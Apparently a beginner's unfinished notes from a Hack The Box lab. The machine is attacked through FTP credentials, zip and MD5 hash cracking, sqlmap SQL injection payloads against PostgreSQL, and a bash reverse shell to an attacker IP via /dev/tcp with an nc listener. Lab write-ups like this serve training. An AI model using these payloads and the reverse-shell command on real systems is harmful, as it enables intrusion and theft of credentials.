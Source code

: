 # 10.10.10.46

---

## nmap -sS -sV -sC -oX ./nmap/init.xml 10.10.10.46

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

---

## Found DDoS on vs-ftpd on port 21.

Script is in DDoS_on_vsftpd.py
vsftpd = "vsftpd, (or very secure FTP daemon),[1] is an FTP server for Unix-like systems, including Linux. It is the default FTP server in the Ubuntu, CentOS, Fedora, NimbleX, Slackware and RHEL Linux distributions. It is licensed under the GNU General Public License. It supports IPv6, TLS and FTPS (explicit since 2.0.0 and implicit since 2.1.0). "
++ [Wiki Source](https://en.wikipedia.org/wiki/Vsftpd)

++ [Exploit](https://www.exploit-db.com/exploits/49719)

---

## Found vsftpd < 3.0.3 Security Bypass Vulnerability

++ [Start Link](https://www.mageni.net/vulnerability/vsftpd-303-security-bypass-vulnerability-108045)

????

---

## Found exploit on SSH

++ [Main Link](https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits)

We can brute force.

---

## hydra -l root -P Passlist ftp://10.10.10.46

Used `root` as the username.
Common passwords don't work.

---

## HTTP has vulns

++ [CVE-2020-1934](https://nvd.nist.gov/vuln/detail/CVE-2020-1934)
++ [CVE-2020-1927](https://nvd.nist.gov/vuln/detail/CVE-2020-1927)

```
- In Apache HTTP Server 2.4.0 to 2.4.41, mod_proxy_ftp may use uninitialized memory when proxying to a malicious FTP server. (CVE-2020-1934)

- In Apache HTTP Server 2.4.0 to 2.4.41, redirects configured with mod_rewrite that were intended to be self-referential might be fooled by encoded newlines and redirect instead to an unexpected URL within the request URL. (CVE-2020-1927)
```

---

## Walkthrough gives the credentials for ftp.

Username: ftpuser
Password: mc@F1l3ZilL4

This probably needs to be enumarated.

---

## Inside the ftp

```
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
226 Transfer complete.
2533 bytes received in 0.07 secs (35.0184 kB/s)
ftp> exit
221 Goodbye.
```

---

## The zip is password protected but can be cracked with JohntheRipper

Hashed the zip for john.
I used the website but there is a script inside official repo. Probably also in the program files itself. Might need to be compiled.
Gave hash to john with the wordlist from Seclist.

Password: 741852963

---

## Zip includes a index.php

The very first thing:
```
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

Username: admin
Password: 2cb42f8734ea607eefed3b70af13bbd3 (hashed)

---

## Reverse the hash with crackstation

Type: md5
Result: qwerty789

So now,
Username: admin
Password: qwerty789

---

## We can enter the website and login with the credentials.

Inside there is a search bar.
Stored cookies reveal `PHPSESSID=lj4doc0q3ice032b0mndds6h18`.

---

## sqlmap http://10.10.10.46/dashboard.php?search=random --cookie="PHPSESSID=lj4doc0q3ice032b0mndds6h18"

```
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=random' AND (SELECT (CASE WHEN (8196=8196) THEN NULL ELSE CAST((CHR(119)||CHR(108)||CHR(81)||CHR(71)) AS NUMERIC) END)) IS NULL-- ggnh

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=random' AND 9816=CAST((CHR(113)||CHR(118)||CHR(113)||CHR(120)||CHR(113))||(SELECT (CASE WHEN (9816=9816) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(122)||CHR(107)||CHR(113)||CHR(113)) AS NUMERIC)-- mtWO

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=random';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=random' AND 5881=(SELECT 5881 FROM PG_SLEEP(5))-- LvvK
---
[22:18:32] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.04 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL

```

---

## Running the same command with `--os-shell` gives back a linux shell

And openning up a reverse shell to connect to our machine moves us forward.
```
Self> sudo nc -lnvp 443
Target> bash -c 'bash -i >& /dev/tcp/10.10.16.72/443 0>&1'
```

---

## SHELL=/bin/bash script -q /dev/null

Privilage escalation.

---

## Inside http files

We find `dashboard.php`, and inside it we find:
```
...
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
...
```

Username: postgres
Password: P@s5w0rd!

---

## There is python3 in system.

We can run:
```
python3 -c "import pty;pty.spawn('/bin/bash')
```
And the password is the one we just found.

---

## Apparently the machine is unstable and is dropping sessions.

I had the same problem and the only viable solution is to reset the machine. Which is not a solution for me because the maimum number of resets for tha machine for the day ahs been reached. It should put things into perspective. Sad thing for a beginner machine but I have found a python script for SQL Injections.

Script is is sql_inj.py

++ [Repo Link](https://github.com/florianges/-HTB-Vaccine_sql_injection)

---

## That didn't work either. Done for now.